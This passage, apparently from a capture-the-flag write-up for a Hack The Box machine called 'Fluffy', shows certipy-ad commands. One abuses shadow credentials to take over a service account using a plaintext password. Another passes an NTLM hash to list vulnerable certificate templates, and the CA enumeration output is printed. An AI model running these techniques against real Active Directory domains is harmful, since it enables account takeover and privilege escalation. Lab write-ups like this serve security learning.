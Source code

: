 # Path to root

going back to cv_svc account let's grap its ntlm

```bash
certipy-ad shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -account ca_svc
```

and use the lover certipy to see what we can find

```
certipy-ad find -vulnerable -u ca_svc@fluffy.htb -hashes ":ca0f4f9e9eb8a092addf53bb03fc98c8" -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: DC01.fluffy.htb.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
```
